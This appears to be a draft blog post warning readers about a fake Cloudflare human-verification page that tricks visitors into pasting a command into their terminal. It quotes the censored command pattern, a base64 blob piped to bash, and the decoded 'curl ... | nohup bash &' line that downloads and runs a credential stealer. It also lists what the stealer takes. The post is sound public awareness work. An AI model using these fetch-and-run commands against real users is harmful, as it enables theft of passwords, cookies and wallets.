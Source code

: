 <!------------------------- REFERENCE LINKS BLOCK ----------------------------------->
[TODO]: some-link
<!----------------------- END REFERENCE LINKS BLOCK --------------------------------->

Watch Out For This Malware
==========================
Spreading the word about a nasty phishing scam

![](./images/image.png)

> 🚨 BLUF: there's a clever malware posing as a Cloudflare "verify you're human" page. If you do what this malware wants, it will steal everything on your computer.
> 
> DO NOT EVER run anything from a website in your terminal! There's no legitimate reason to do so, unless you're a coder and know what you're doing.

Yesterday I followed a link on a Harvard Health article and was presented with this official-looking screen:

![](./images/malware.jpeg)

_Website blocked out because I'm unsure if they're part of the malware, or just a victim._

I knew [Cloudflare has beef with AI companies](https://www.forbes.com/sites/johnwerner/2025/07/12/cloudflare-gives-ai-bot-companies-ultimatum/) so my subconscious figured this must be part of their war. Right as I mindlessly clicked "Copy", two huge red flags burst into my consciousness:

1. Why is Cloudflare asking me to run things in the terminal??
2. The supposed text to run wouldn't actually _do_ anything on the terminal.

Curious, I checked to see what I'd actually copied:

```
echo "<bunch of base64 I'm censoring for safety>" | base64 -d | bash
```

Suuuuper sketchy... some opaque encoded stuff is getting executed directly in `bash`. Very unlikely Cloudflare would do this, unless they pushed some very boneheaded feature recently.

What's inside that encoded stuff? Running just the decode step gives me:

```
curl -s http://<a totally random URL>/some/file.php | nohup bash &
```

_Again, censoring for safety._

So it would download a random file from a random server, and then run it with `bash`. I knew at this point that this isn't Cloudflare; it's malware.

My heebie-jeebies went into overdrive, and I closed the tabs before I accidentally ran anything like the full command.

> 🧠 Let me tell you: coffee's stimulant effects have nothing on the knowledge that if you copy-paste wrong, your computer will be enslaved to something straight out of Cthulhu's asshole.

I then Googled to see if anyone else had seen this.

Turns out [this security researcher has](https://cyooda.com/blog/highly-malicious-macos-infostealer), and he did the work of figuring out what that PHP file would have done:

- Copy the passwords in my Mac keychain
- Copy the cookies from my browsers
- Copy credentials to crypto wallets on my machine
- Send it all to a remote server

Scary stuff.

I reported both sites to Google Safe Browsing and closed everything out.

But I couldn't resist one last little investigation: who owns this domain?

I did a `whois` on the domain, and...

...it's registered with [this Japanese domain registrar](https://en.wikipedia.org/wiki/GMO_Internet), but the registrant is hidden. Boo.

That the trail leads back to Asia has me guessing it's either Chinese or North Korean in origin.

North Korea's cyber warfare groups are [notoriously aggressive in stealing crypto given the country has no real economy to speak of](https://observer.com/2025/04/how-north-korea-became-a-cybercrime-superpower-without-internet-access/), and the script stores its stolen credentials in a directory called `lovemrtrump`.

Could this be a nod to North Korea ↔ Trump relations? Or maybe a total red herring.

Regardless, I got chills knowing that a single line of text with such destructive power was still in my clipboard.

---

A few years back I wrote a guide on how normal people can stay safe on the internet.

I still follow it, and one of my recommendations there - [1Password](https://1password.com/)- would have partially protected me even if I'd run the malware.

If you want to build your own cyber defenses to Good Enough, you'll probably be interested in the guide: [Cybersecurity 101](https://mieubrisse.substack.com/p/cybersecurity-101).

And if this post was useful to you, consider subscribing for more posts designed to make your life better:

TODO SUBSCRIBE BUTTON

<!------------------ IG POST DESCRIPTION --------------------->
<!--
TODO

🐒 Full article at link in bio.
-->
